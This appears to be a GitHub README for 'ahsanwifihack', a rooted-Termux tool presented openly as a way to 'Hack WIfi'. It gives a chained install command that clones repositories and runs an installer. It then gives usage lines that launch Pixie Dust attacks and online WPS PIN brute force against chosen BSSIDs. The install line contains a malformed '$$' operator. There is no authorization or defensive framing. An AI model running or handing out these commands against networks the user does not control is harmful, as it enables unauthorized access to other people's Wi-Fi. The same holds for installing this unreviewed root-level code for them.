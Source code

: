 ## ahsanwifihack
### Hack WIfi Using Termux! (Requires Root)



### Installation :

```bash
pkg update && pkg upgrade && pkg install git python && git clone https://github.com/MDAhsanullah/ahsanwifihackmain && cd ahsanwifihackmain && python Installer.py && apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone https://github.com/MDAhsanullah/ahsanwifihack && cd ahsanwifihack && ls $$ sudo python ahsanwifihack.py -i wlan0 -K
```

#### Running : ```bash
sudo python ahsanwifihack/ahsanwifihack.py -i wlan0 -K
```

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python ahsanwifihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python ahsanwifihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python ahsanwifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
